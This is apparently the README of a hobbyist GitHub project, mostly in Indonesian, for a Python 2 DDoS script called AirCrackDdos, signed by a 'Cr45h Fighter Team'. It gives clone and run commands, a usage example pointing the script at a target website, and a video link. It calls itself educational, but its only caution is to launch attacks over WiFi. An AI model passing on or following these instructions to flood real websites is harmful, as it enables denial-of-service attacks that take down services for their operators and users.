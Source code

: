 # DDoS Attack
# -----------------------

# cara install
# $git clone https://github.com/R00TD4nZ/AirCrackDdos
# $cd AirCrackDdos
# $chmod +x AirCrackDdos.py
# $python2 AirCrackDdos.py

# Usage
# Cari web (http) not www
 
# sudah di install??
# lalu ketikkan:
# $python2 AirCrackDdos.py
# $python2 AirCrackDdos.py (http.target.xxx)
 
# contoh:
# $python2 AirCrackDdos.py http://target.co.in/

# apabila-kurang-jelas-bisa-liat-video-ini!!!

https://youtu.be/uAtVgqKgaY0

# Note
Tools ini hanya sebagai pembelajaran untuk serangan DOS & DDOS
ddos hanyalah sebagian kecil dan sangat kecil dari dunia hacking

INGAT!! JANGAN MELAKUKAN SERANGAN DOS/DDOS TANPA MENGGUNAKAN JARINGAN WIFI!!!!

# salam newbie
# Cr45h Fighter Team
# Create : r00t#d4nZ
